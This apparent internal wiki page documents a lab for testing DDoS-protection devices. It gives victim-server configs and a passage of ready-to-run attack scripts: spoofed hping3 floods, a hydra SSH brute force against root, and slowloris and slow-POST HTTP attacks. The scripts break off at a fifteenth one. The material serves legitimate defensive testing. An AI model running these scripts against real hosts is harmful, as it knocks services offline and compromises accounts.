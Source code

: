#acl mohamed.ashraf:read,write CoreGroup:read,write All:read
{{{
Author       : Mohamed Ashraf Ali
Title        : Distributed Denial Of Service: Device Under Test Proof Of Concept (DDOS DUT POC)
Version      : 1.0
Creation date: 25/6/2015
Latest update: 28/6/2015
}}}



<<TableOfContents(4)>>



{{attachment:logo1.jpg}}


= Introduction =

- In this project we needed to deploy a lab environment in order to test DDOS DUTs.

- Standards were needed to be adjusted for all DUTs testing, where all DUTs were to be tested on common grounds.

- A near real life scenarios needed to be tested and calibrated with given DUTs.

== The main requirements ==

''1-'' Deploy a victim system, with almost all well known services configured and deployed.

''2-'' Deploy An Attacker System capable of Utilizing and deploying several Layer-4 & 7 DDOS Attacks.

''3-'' Deploy a Client System, where it well generate and request Legitimate traffic in correspondence with the Victim.

''4-'' Deploy a Calibration System, in order to act as a dependable performance measurement through out all the phases of the POC. 

-----

= The Victim =

{{attachment:victim.png}}

- The Victim is the System which is going to be under Attack by the Attacker (The Swarm) and under protection by the DDOS DUT.

== System Specifications ==

- The Victim Server held the following Specs:

OS: Debian 8.1 (Jessie)

CPU: 4xCore

RAM: 4GB

Swap: 8GB

Disk: 500GB

== Preparing The Server ==

1- First Comes the network configuration, which includes Mang. Iface and the Data Traffic Iface

2- Add Routes in order to respond to the victim Legitimate Traffic, and the Swarm Layer-7 Attacks.

''Network is configured as below:''
{{{
# The loopback network interface
auto lo
iface lo inet loopback

# PRIMARY IFACES
allow-hotplug eth0
iface eth0 inet static
       address 192.168.0.66
       netmask 255.255.255.0
       network 192.168.0.0
       broadcast 192.168.0.255
#      gateway 192.168.0.1
       name-servers 192.168.0.4

allow-hotplug eth1
iface eth1 inet static
       address 10.10.10.2
       netmask 255.255.255.0
       network 10.10.10.0
       broadcast 10.10.10.255
       gateway 10.10.10.1
#      mtu 800

#STATICS
up route add -net 192.168.0.0/16 gw 192.168.0.1 dev eth0
up route add -net 10.172.99.0/24 gw 192.168.0.1 dev eth0

## Client RESPONCE:
up route add -net 30.30.0.0/16 gw 10.10.10.1 dev eth1

## ATTACK RESPONCE:
#up route add -net 100.200.0.0/16 gw 10.10.10.1 dev eth1
}}}

3- Configure Server Hostname & Hosts File

{{{
root@DDoS-Victim:~# cat /etc/hostname 
DDoS-Victim

root@DDoS-Victim:~# cat /etc/hosts
127.0.0.1       localhost.localdomain  localhost
192.168.0.66    DDoS-Victim.noor.net   DDoS-Victim

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
}}}

4- Configure Apt-cacher Link, for packages installation.

{{{
root@DDoS-Victim:~# cat /etc/apt/apt.conf.d/02apt-cacher 
Acquire::http { Proxy "http://192.168.0.114:3142"; };
}}}

== Installing services ==

- Now I started building and configuring the Services that is going to be under stress.

- Of course all services needs to fully configured and Legitimate, so it can generate Legitimate traffic with the Client System.

=== Apache ===

- Apache Web Server is Used for HTTP & HTTPS Traffic

==== Install Apache ====

- To install Apahce and enable its modules:
{{{
apt-get update && apt-get install apache2 -y

a2enmod ssl
a2enmod rewrite
a2enmod ssl
a2enmod proxy
a2enmod proxy_http
a2enmod proxy_ajp
a2enmod rewrite
a2enmod deflate
a2enmod headers
a2enmod proxy_balancer
a2enmod proxy_connect
a2enmod proxy_html
a2enmod rewrite
a2enmod ssl
a2enmod proxy
a2enmod proxy_http
a2enmod proxy_ajp
a2enmod rewrite
a2enmod deflate
a2enmod headers
a2enmod proxy_balancer
a2enmod proxy_connect
a2enmod proxy_html
}}}

==== Configure Apache ====
- Before restarting APACHE Server, Configure the HTTP Directives.

{{{
root@DDoS-Victim:~# cat /etc/apache2/sites-available/000-default.conf 
<VirtualHost *:80>
        ServerAdmin webmaster@localhost

        DocumentRoot /var/www
        <Directory />
                Options FollowSymLinks
                AllowOverride None
        </Directory>
        <Directory /var/www/>
                Options Indexes FollowSymLinks MultiViews
                Options +Indexes
                AllowOverride None
                Order allow,deny
                allow from all
        </Directory>

        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride None
                Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log

        # Possible values include: debug, info, notice, warn, error, crit,
        # alert, emerg.
        LogLevel warn

        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/
        SSLEngine On
        SSLCertificateFile    /etc/ssl/certs/ssl-cert-snakeoil.pem
        SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
}}}

- Almost 300Migs of content from NYTIMES Website has been imported and included into our Victim System.

{{{
root@DDoS-Victim:/var/www/www.nytimes.com# pwd
/var/www/www.nytimes.com

root@DDoS-Victim:/var/www/www.nytimes.com# ls -lh
total 1000K
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 2006
drwxr-xr-x  8 root root 4.0K Jun  1 09:13 2014
drwxr-xr-x  8 root root 4.0K Jun  1 09:13 2015
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 ads
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 adx
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 aponline
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 column
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 content
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 crosswords
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 events
-rw-r--r--  1 root root  34K Jun  1 09:13 events.html.tmp
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 imagepages
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 images
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 indexes
-rw-r--r--  1 root root 157K Jun  1 09:13 index.html
drwxr-xr-x 13 root root 4.0K Jun  1 09:13 interactive
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 js
-rw-r--r--  1 root root  66K Jun  1 09:13 most-popular-emailed.html.tmp
-rw-r--r--  1 root root  65K Jun  1 09:13 most-popular.html.tmp
-rw-r--r--  1 root root  66K Jun  1 09:13 most-popular-viewed.html.tmp
drwxr-xr-x 32 root root 4.0K Jun  1 09:13 pages
-rw-r--r--  1 root root  52K Jun  1 09:13 recommendations.html.tmp
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 ref
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 reuters
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 roomfordebate
-rw-r--r--  1 root root 170K Jun  1 09:13 roomfordebate.html.tmp
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 section
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 services
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 slideshow
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 subscriptions
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 svc
-rw-r--r--  1 root root  26K Jun  1 09:13 toggleIHTtoNYT.html.tmp
-rw-r--r--  1 root root  26K Jun  1 09:13 toggleNYTtoIHT.html.tmp
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 travel
drwxr-xr-x 13 root root 4.0K Jun  1 09:13 video
-rw-r--r--  1 root root 115K Jun  1 09:13 videoae0c.html.tmp
-rw-r--r--  1 root root  97K Jun  1 09:13 video.html
}}}

- Restart the service or reboot the Server

=== bind9 ===

- Bind is going to be utilized for DNS Service on the Victim system.

==== Install bind9 ====

- to install bind:
{{{
apt-get update && apt-get install bind9
}}}

==== Configure bind9 ====

- Bind Service Configuration Created:

Zone-IPs
{{{
root@DDoS-Victim:/etc/bind# cat db.192 
;
; BIND reverse data file for local loopback interface
;
$TTL    604800
@       IN      SOA     ns.myhome.net. root.myhome.net. (
                              1         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                         604800 )       ; Negative Cache TTL
;
@       IN      NS      ns.
100     IN      PTR     core.myhome.net.
101     IN      PTR     gw.myhome.net.
101     IN      PTR     control.myhome.net.
102     IN      PTR     ns.myhome.net.
102     IN      PTR     dns.myhome.net.
103     IN      PTR     media.myhome.net.
104     IN      PTR     lb.myhome.net.
}}}

Zone Inverse
{{{
root@DDoS-Victim:/etc/bind# cat db.myhome.net 
; BIND reverse data file for empty rfc1918 zone
;
; DO NOT EDIT THIS FILE - it is used for multiple zones.
; Instead, copy it, edit named.conf, and use that copy.
;
$TTL    86400
@       IN      SOA     ns.myhome.net. root.myhome.net. (
                              1         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                          86400 )       ; Negative Cache TTL
;
@       IN      NS      ns.myhome.net.
l1-wifi IN      A       192.168.1.1
l3-wifi IN      A       192.168.1.3

core    IN      A       192.168.1.100
gw      IN      A       192.168.1.101
control IN      A       192.168.1.101
ns      IN      A       192.168.1.102
dns     IN      A       192.168.1.102
media   IN      A       192.168.1.103
lb      IN      A       192.168.1.104

l1-asus IN      A       10.10.10.1
l3-asus IN      A       10.10.10.3
}}}

Add-Zone
{{{
root@DDoS-Victim:/etc/bind# cat named.conf.local 
//
// Do any local configuration here
//

// Consider adding the 1918 zones here, if they are not used in your
// organization
//include "/etc/bind/zones.rfc1918";

zone "myhome.net" {
         type master;
         file "/etc/bind/db.myhome.net";
};



zone "1.168.192.in-addr.arpa" {
        type master;
        notify no;
        file "/etc/bind/db.192";
};
}}}

Configure DNS Options
{{{
root@DDoS-Victim:/etc/bind# cat named.conf.options 
options {
        directory "/var/cache/bind";

        // If there is a firewall between you and nameservers you want
        // to talk to, you may need to fix the firewall to allow multiple
        // ports to talk.  See http://www.kb.cert.org/vuls/id/800113

        // If your ISP provided one or more IP addresses for stable
        // nameservers, you probably want to use them as forwarders.
        // Uncomment the following block, and insert the addresses replacing
        // the all-0's placeholder.

        // forwarders {
        //      0.0.0.0;
        // };

        //========================================================================
        // If BIND logs error messages about the root key being expired,
        // you will need to update your keys.  See https://www.isc.org/bind-keys
        //========================================================================
        dnssec-validation auto;

        auth-nxdomain no;    # conform to RFC1035
        listen-on-v6 { any; };

        allow-query { localhost; 192.168.0.0/24; 10.10.10.0/24; 172.3.1.0/24; 30.30.0.0/16;};
        allow-recursion { localhost; 192.168.0.0/24; 10.10.10.0/24; 172.3.1.0/24; 30.30.0.0/16;};
        forwarders { 217.139.0.38; 217.139.225.250; 8.8.8.8; 4.2.2.2;};

};
}}}

- Restart the service or reboot the Server

=== postfix ===

- Postfix Is Used for the SMTP type of traffic.

==== Install Postfix ====

- To install postfix:

{{{
apt-get update && apt-get install postfix -y
}}}
==== Configure Postfix ====

- The following Configuration was used to obtain an operational Postfix.

{{{
root@DDoS-Victim:/etc/bind# cat /etc/postfix/main.cf 
# See /usr/share/postfix/main.cf.dist for a commented, more complete version


# Debian specific:  Specifying a file name will cause the first
# line of that file to be used as the name.  The Debian default
# is /etc/mailname.
#myorigin = /etc/mailname

smtpd_banner = $myhostname ESMTP $mail_name (Debian/GNU)
biff = no

# appending .domain is the MUA's job.
append_dot_mydomain = no

# Uncomment the next line to generate "delayed mail" warnings
#delay_warning_time = 4h

readme_directory = no

# TLS parameters
smtpd_tls_cert_file=/etc/ssl/certs/ssl-cert-snakeoil.pem
smtpd_tls_key_file=/etc/ssl/private/ssl-cert-snakeoil.key
smtpd_use_tls=yes
smtpd_tls_session_cache_database = btree:${data_directory}/smtpd_scache
smtp_tls_session_cache_database = btree:${data_directory}/smtp_scache

# See /usr/share/doc/postfix/TLS_README.gz in the postfix-doc package for
# information on enabling SSL in the smtp client.

myhostname = DDoS-Victim.noor.net
alias_maps = hash:/etc/aliases
alias_database = hash:/etc/aliases
myorigin = /etc/mailname
mydestination = victim.com, DDoS-Victim.noor.net, localhost.noor.net, localhost
relayhost = 
mynetworks = 172.3.1.0/24 192.168.0.0/24 127.0.0.0/8 [::ffff:127.0.0.0]/104 [::1]/128
mailbox_command = procmail -a "$EXTENSION"
mailbox_size_limit = 0
recipient_delimiter = +
inet_interfaces = all
virtual_alias_maps = hash:/etc/postfix/virtual
}}}

- Restart the service or reboot the Server

=== vsftpd ===

- vsftpd was going to be used for FTP service & Traffic generation

==== Install vsftpd ====

- To install the service

{{{
 apt-get update && apt-get install vsftpd -y
}}}

==== Configure vsftpd ====

- The following configuration was created:

{{{
root@DDoS-Victim:/etc/bind# cat /etc/vsftpd.conf
listen=YES

anonymous_enable=YES

local_enable=YES

write_enable=YES

local_umask=022

anon_upload_enable=YES

anon_mkdir_write_enable=YES

dirmessage_enable=YES

use_localtime=YES

xferlog_enable=YES

connect_from_port_20=YES

secure_chroot_dir=/var/run/vsftpd/empty

pam_service_name=vsftpd

rsa_cert_file=/etc/ssl/private/vsftpd.pem

chroot_local_user=YES
}}}


- FTP Directory has been created under user "core"

{{{
root@DDoS-Victim:/home/core/ftp-files# pwd
/home/core/ftp-files
}}}

- Two test files created for FTP Transfer test, 1M & 10M.

{{{
root@DDoS-Victim:/home/core/ftp-files# ls -lh
total 11M
-rw-r--r-- 1 root root  9.9M Jun 10 10:12 test10m
-rw-r--r-- 1 root root 1006K Jun 10 10:09 test1m
}}}

- Restart the service or reboot the Server


=== SNMP ===

- SNMP was needed for server monitoring and for another open port opurtunity.

==== Install SNMP ====

- to install the service exe the following

{{{
apt-get update && apt-get install snmp snmpd -y
}}}

==== Configure SNMP ====

- The following Configuration was used for SNMP.

{{{
root@DDoS-Victim:~# cat /etc/snmp/snmpd.conf
#  Listen for connections from the local system only
agentAddress  udp:127.0.0.1:161
#  Listen for connections on eth1 only
agentAddress  udp:192.168.0.66:161

## System location and contact information
syslocation LAB
syscontact THE-SWARM

rocommunity TeSt0FDd0S
}}}


- Restart the service or reboot the Server

=== ntp ===

- to install NTP on the Server apply the following :

{{{
apt-get update && apt-get install ntp ntpdate ntpstat ntp-doc -y
}}}
-----

= The Swarm =

{{attachment:swarm.jpg}}

- The Swarm is the System responsible for Deploying a wide range of DOS Attacks in order to test the DUT and Bleed the Victim.

== System Specifications ==

- The Swarm Server held the following Specs:

OS: Kali 1.1 (Moto)

CPU: 4xCore

RAM: 8GB

Swap: 8GB

Disk: 500GB

== Preparing The Server ==

1- First Comes the network configuration, which includes Mang. Iface and the Data Traffic Iface.

2- Then a twenty different sub interfaces are created in order to source the attacks from.

{{{
root@The-SWARM:~# cat /etc/network/interfaces 
# The loopback network interface
auto lo
iface lo inet loopback

# PRIMARY IFACES
auto eth0
iface eth0 inet static
       address 192.168.0.77
       netmask 255.255.255.0
       network 192.168.0.0
       broadcast 192.168.0.255
       name-servers 192.168.0.4
#      gateway 192.168.0.1

auto eth1
iface eth1 inet static
       address 172.3.1.2
       netmask 255.255.255.252
       network 172.3.1.0
       broadcast 172.3.1.3
       gateway 172.3.1.1

#STATICS
up route add -net 192.168.0.0/16 gw 192.168.0.1 dev eth0 
up route add -net 10.172.99.0/24 gw 192.168.0.1 dev eth0


######################## ATTACK IFACES

auto eth1:1
iface eth1:1 inet static
        address 40.40.1.1
        netmask 255.255.255.0

auto eth1:2
iface eth1:2 inet static
        address 40.40.2.1
        netmask 255.255.255.0

auto eth1:3
iface eth1:3 inet static
        address 40.40.3.1
        netmask 255.255.255.0

auto eth1:4
iface eth1:4 inet static
        address 40.40.4.1
        netmask 255.255.255.0

auto eth1:5
iface eth1:5 inet static
        address 40.40.5.1
        netmask 255.255.255.0

auto eth1:6
iface eth1:6 inet static
        address 40.40.6.1
        netmask 255.255.255.0

auto eth1:7
iface eth1:7 inet static
        address 40.40.7.1
        netmask 255.255.255.0

auto eth1:8
iface eth1:8 inet static
        address 40.40.8.1
        netmask 255.255.255.0

auto eth1:9
iface eth1:9 inet static
        address 40.40.9.1
        netmask 255.255.255.0

auto eth1:10
iface eth1:10 inet static
        address 40.40.10.1
        netmask 255.255.255.0

auto eth1:11
iface eth1:11 inet static
        address 40.40.11.1
        netmask 255.255.255.0

auto eth1:12
iface eth1:12 inet static
        address 40.40.12.1
        netmask 255.255.255.0

auto eth1:13
iface eth1:13 inet static
        address 40.40.13.1
        netmask 255.255.255.0

auto eth1:14
iface eth1:14 inet static
        address 40.40.14.1
        netmask 255.255.255.0

auto eth1:15
iface eth1:15 inet static
        address 40.40.15.1
        netmask 255.255.255.0

auto eth1:16
iface eth1:16 inet static
        address 40.40.16.1
        netmask 255.255.255.0

auto eth1:17
iface eth1:17 inet static
        address 40.40.17.1
        netmask 255.255.255.0

auto eth1:18
iface eth1:18 inet static
        address 40.40.18.1
        netmask 255.255.255.0

auto eth1:19
iface eth1:19 inet static
        address 40.40.19.1
        netmask 255.255.255.0

auto eth1:20
iface eth1:20 inet static
        address 40.40.20.1
        netmask 255.255.255.0
}}}

3- Configure Server Hostname & Hosts File

{{{
root@The-SWARM:~# cat /etc/hostname
The-SWARM

root@The-SWARM:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       The-SWARM.noor.net      The-SWARM
10.10.10.2      www.victim.com
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.10.2    smtp.victim.com victim.com
}}}

4- Configure Apt-cacher Link, for packages installation.

{{{
root@The-SWARM:~# cat /etc/apt/apt.conf.d/02apt-cacher 
Acquire::http { Proxy "http://192.168.0.114:3142"; };
}}}


== Preparing Attack Tools ==

- The following Tools I used for Attacks:

''Layer4''

1- hping

2- hydra

''Layer7''

3- slowloris

4- slowhttptest

=== Layer 4 Attacks ===

- The following are the Layer-4 Attacks that I built and deployed on The-SWARM System.

==== ATTACK-1: SYN flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-1
#! /bin/bash

echo "###################### IP SYN FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PACKET SIZE:
read packet
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip -S -d $packet -p $port --flood -I eth1 --rand-source &
 done

}}}

==== ATTACK-2: SYN-ACK flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-2
#! /bin/bash

echo "###################### IP SYN-ACK FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PACKET SIZE:
read packet
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip -S -A -d $packet -p $port --flood -I eth1 --rand-source &
 done
}}}

==== ATTACK-3: Random (but identical across packet) payload (20 bytes payload) ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-3
#! /bin/bash

echo "###################### Flood of random (but identical across packet) payload. ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in range(20)]))" > ack_payload$i
hping3 $tarip -A -d 20 -p $port --flood -I eth1 -E ack_payload$i --rand-source &
done
}}}

==== ATTACK-4: RST flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-4
#! /bin/bash

echo "###################### spoofed RST flood ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PACKET SIZE:
read packet
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip -R -d $packet -p $port --flood -I eth1 --rand-source &
 done
}}}

==== ATTACK-5: Synonymous payload (20 bytes payload) with spoofed source of victim itself ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-5
#! /bin/bash

echo "###################### Synonymous payload (20 bytes payload) with spoofed source of victim itself ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #####################################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
 do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in range(20)]))" > synonymous_payload$i
hping3 $tarip -A -d 20 -p $port --flood -I eth2.101 -E synonymous_payload$i --spoof 10.10.10.2 &
 done
}}}

==== ATTACK-6: SSH Brute Force ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-6
#! /bin/bash

echo "###################### SSH BRUTE FORCE ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en "ENTER NUMBER OF SSH THREADS (1-64)[recommend 64]:"
read count
echo "################# STARTING THREADS ##########################"
#packet=$1
#port=$2
#count=$3
cd /usr/bin
hydra $tarip ssh -s 22 -P password-list.txt -l root -e ns -t $count -vV
}}}

==== ATTACK-7: Random (but identical across packet) UDP payload (20 bytes payload) ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-7
#! /bin/bash

echo "###################### Flood of random (but identical across packet) payload. ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in range(20)]))" > udp_payload$i
hping3 $tarip --udp -p $port --flood -I eth1 --rand-source -d 20 -E udp_payload$i &
done
}}}

==== ATTACK-8: Fragmentation Random Payload - UDP PAYLOAD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-8
#! /bin/bash

echo "###################### Fragmentation Random Payload - UDP PAYLOAD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER Packet Size:
read packet
echo -en ENTER Frag Size:
read frag
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in xrange(1000)]))" > udp_frag_payload$i
hping3 $tarip --udp -p $port --flood -I eth1 --rand-source -x -g $frag -d $packet -E udp_frag_payload$i &
done
}}}

==== ATTACK-9: DNS Payload to DNS port flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-9
#! /bin/bash

echo "###################### DNS Payload to DNS port flood ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import sys;
sys.stdout.write('\x00\x02\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x06\x67\x6f\x6f\x67\x6c\x65\x03\x63\x6f\x6d\x00\x00\x01\x00\x01')" > dns_payload$i
hping3 $tarip --udp -p 53 --flood -I eth1 --rand-source -E dns_payload$i -d 28 &
done
}}}

==== ATTACK-10: ICMP code-5 FLOOD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-10
#! /bin/bash

echo "###################### ICMP code-5 FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip --icmp --flood -I eth1 --rand-source -C 5 &
 done
}}}

==== ATTACK-11: ICMP code-5 FRAG FLOOD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-11
#! /bin/bash

echo "###################### ICMP code-5 FRAG FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip --icmp --flood -I eth1 --rand-source -c 5 -x -g 100 &
 done
}}}


==== ATTACK-12: ICMP code-8 FLOOD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-12
#! /bin/bash

echo "###################### ICMP code-8 FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip --icmp --flood -I eth1 --rand-source &
 done
}}}

=== Layer 7 Attacks ===

==== ATTACK-13: SLOW-LORIS HTTP ATTACK ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-13
#! /bin/bash

echo "###################### SLOW-LORIS ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo "CHOOSE ATTACK TYPE:"
echo "1- Test Mode"
echo "2- Default Mode"
echo
read -p 'Your choice: ' Fpointer
echo "################# STARTING THREADS ######################"
cd /usr/bin

case $Fpointer in

  1) ( slowloris.pl -dns $tarip -test
     )
  ;;

  2) ( slowloris.pl -dns $tarip
     )
  ;;

esac
}}}

==== ATTACK-14: SLOW-POST HTTP ATTACK ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-14
#! /bin/bash

echo "###################### SLOW-POST ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo "################# STARTING THREADS ######################"

slowhttptest -c 3000 -B -i 110 -r 200 -s 8192 -t FAKEVERB -u http://$tarip/ -x 10 -p 3
}}}

==== ATTACK-15: SLOW-READ HTTP ATTACK ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-15
#! /bin/bash

